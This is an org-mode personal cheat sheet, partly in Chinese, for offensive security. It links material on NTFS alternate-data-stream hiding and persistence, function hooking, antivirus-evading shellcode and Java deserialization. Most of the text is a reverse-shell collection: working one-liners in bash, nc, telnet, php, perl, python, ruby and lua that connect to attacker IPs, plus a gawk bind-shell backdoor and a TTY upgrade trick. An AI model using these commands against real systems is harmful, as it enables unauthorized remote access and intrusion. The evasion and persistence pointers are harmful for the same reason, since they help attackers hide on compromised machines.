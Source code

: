 ** 数据隐藏
   - [[https://www.cnblogs.com/Chesky/p/ALTERNATE_DATA_STREAMS.html][NTFS 交换数据流]]
   - [[https://enigma0x3.net/2015/03/05/using-alternate-data-streams-to-persist-on-a-compromised-machine/][Data Streams]]
*** KeePass 安全机制
 - https://keepass.info/help/base/security.html
** Hook
   - Detours: https://github.com/microsoft/Detours/wiki
   - inline hook lib: https://bbs.pediy.com/thread-225863.htm
   - linux elf hook *demo*: https://bbs.pediy.com/thread-178320.htm
   - [[https://blog.netspi.com/function-hooking-part-i-hooking-shared-library-function-calls-in-linux/][hook .so]]
   - [[http://www-personal.umich.edu/~zhaoyich/blog/2013/07/linux-api-hooking.html][api hook]]
** shellcode
   - 加密过杀软：https://xz.aliyun.com/t/6995
   - [[https://3gstudent.github.io/3gstudent.github.io/Shellcode%E7%94%9F%E6%88%90%E5%B7%A5%E5%85%B7Donut%E6%B5%8B%E8%AF%95%E5%88%86%E6%9E%90/][3gstudent shellcode 生成工具]]
** Java
   - 反序列化代码执行：http://www.jackson-t.ca/runtime-exec-payloads.html
** reverse shell
*** bash
    bash -i >& /dev/tcp/ip/port 0>&1
*** nc
    nc -e /bin/bash 192.168.1.146 7777
*** telnet
    #+begin_src sh
    telnet mknod backpipe p && telnet attackerip 8080 0<backpipe | \
    /bin/bash 1>backpipe
    #+end_src
*** php
    php -r 'exec("/bin/bash -i >& /dev/tcp/192.168.1.146/7777");'
*** perl
    #+begin_src sh
    perl -e 'use Socket;$i="10.0.0.1";$p=1234;
    socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
    if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");
    open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    #+end_src
*** python
    #+begin_src sh
    python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,
              socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);
              os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
              p=subprocess.call(['/bin/bash','-i']);"
    python -c "exec(\"import socket, subprocess;s=socket.socket();
              s.connect(('127.0.0.1',9000))\n
              while 1:  proc = subprocess.Popen(s.recv(1024), shell=True,
              stdout=subprocess.PIPE, stderr=subprocess.PIPE,
              stdin=subprocess.PIPE);
              s.send(proc.stdout.read()+proc.stderr.read())\")"
    python -c "exec(shellcode.encode('base64').decode('base64'))"
    #+end_src
*** ruby
    #+begin_src sh
    ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;
            exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
    #+end_src
*** lua
    #+begin_src sh
    lua -e "require('socket');require('os');t=socket.tcp();
    t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
    #+end_src
*** awk
#+begin_src awk
  #!/usr/bin/gawk -f
  BEGIN {
      Port    =  8080
      Prompt  =  "bkd> "
      Service = "/inet/tcp/" Port "/0/0"
      while (1) {
          do {
              printf Prompt |& Service
              Service |& getline cmd
              if (cmd) {
                  while ((cmd |& getline) > 0)
                      print $0 |& Service
                  close(cmd)
              }
          } while (cmd != "exit")
          close(Service)
      }
  }
#+end_src
*** misc
   pseudo-terminal
   #+begin_src sh
   python -c 'import pty;pty.spawn("/bin/bash")'
   #+end_src
   - [[https://www.freebuf.com/news/142195.html][如何将简单的 Shell 转换成为完全交互式的 TTY]]
   - [[https://xz.aliyun.com/t/7721][完整交互式 shell]]
